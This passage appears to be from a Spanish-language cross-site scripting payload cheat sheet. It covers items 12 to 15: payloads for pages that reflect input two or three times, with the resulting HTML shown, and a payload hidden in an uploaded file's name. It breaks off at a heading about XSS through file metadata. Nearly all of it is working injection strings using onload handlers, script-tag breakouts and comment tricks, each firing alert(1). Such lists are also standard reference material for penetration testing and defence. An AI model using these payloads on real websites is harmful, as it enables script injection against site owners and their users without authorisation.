 - Después de ingresar la carga útil 

```html
<script>
    var dapos = `${alert(1)}`;
</script>
```

12 - Se utiliza cuando hay varios reflejos en la misma página. (Doble reflejo) 

```html
'onload=alert(1)><svg/1='
'>alert(1)</script><script/1='
*/alert(1)</script><script>/*
```

- Después de ingresar la carga útil 

```html
<!DOCTYPE html>
<html>
<body>
'onload=alert(1)><svg/1='
...
'onload=alert(1)><svg/1='
</body>
</html>
```

13 - Se utiliza cuando hay varios reflejos en la misma página. (Triple Reflexión) 

```html
*/alert(1)">'onload="/*<svg/1='
`-alert(1)">'onload="`<svg/1='
*/</script>'>alert(1)/*<script/1='
```

- Después de ingresar la carga útil 

```html
<!DOCTYPE html>
<html>
<body>
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
...
*/alert(1)">'onload="/*<svg/1='
</body>
</html>
```

14 - XSS en nombre de archivo (Carga de archivo) Se usa cuando el nombre del archivo cargado se refleja en algún lugar de la página de destino 

    "><svg onload=alert(1)>.jpeg
    
15 - XSS en metadatos (carga de archivos) Se usa cuando los metadatos cargados se reflejan en algún lugar de la página de destino (usando exiftool) 
